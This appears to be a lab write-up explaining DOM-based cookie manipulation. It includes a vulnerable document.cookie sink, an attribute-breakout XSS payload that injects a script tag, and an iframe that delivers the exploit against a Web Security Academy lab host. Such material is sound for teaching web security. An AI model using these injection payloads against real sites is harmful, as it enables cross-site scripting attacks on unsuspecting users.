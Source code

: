 Some vulnerabilities allow attackers to manipulate data that don't control. Cookie manipulation occurs when a script writes attacker controlled data into the value of a cookie. An attacker can use it to construct a URL that can set a value in the user's cookie. 

Many sinks are harmless, but DOM based cookie attacks can exploit them. If JavaScript writes data from a source into `document.cookie` without sanitization, an attacker can manipulate the value of a cookie to inject values:

```js
document.cookie = 'cookieName='+location.hash.slice(1);
```

If the site unsafely reflects values from cookies without HTML encoding them, it can be exploited.

For example, there may be a product ID in the URL and an option to view the "last viewed product" on the home page which may be stored in a cookie:

```html
lastViewedProduct=https://0aa7008203d0dae081e566ca00ec00f5.web-security-academy.net/product?productId=1
```

It could be set via some code:

```js
 document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
```

It sets a cookie with the value being set to `window.location` which is the URL as the product ID. It assigns the value dynamically depending on the value of the URL bar. By setting another parameter in the URL, the cookie value can be controlled by us.

The cookie may be used to populate a link to the previous product, including any parameters the attacker sets:

```html
<a href="https://0aa7008203d0dae081e566ca00ec00f5.web-security-academy.net/product?productId=1">Last viewed product</a>
```

Attackers can inject into the href attribute of an anchor tag. If so, try exiting the anchor tag by submitting a single quote, closing angle bracket and then supplying a simple XSS alert:

```html
https://0aa7008203d0dae081e566ca00ec00f5.web-security-academy.net/product?productId=1&'><script>print()</script>
```

The function may execute:

```html
<a href='https://0aa7008203d0dae081e566ca00ec00f5.web-security-academy.net/product?productId=1&'><script>print()</script>'>Last viewed product</a>
```

It closes the href attribute, closes the anchor tag and then executes the script tags. To exploit it, an iframe could be used:

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
```

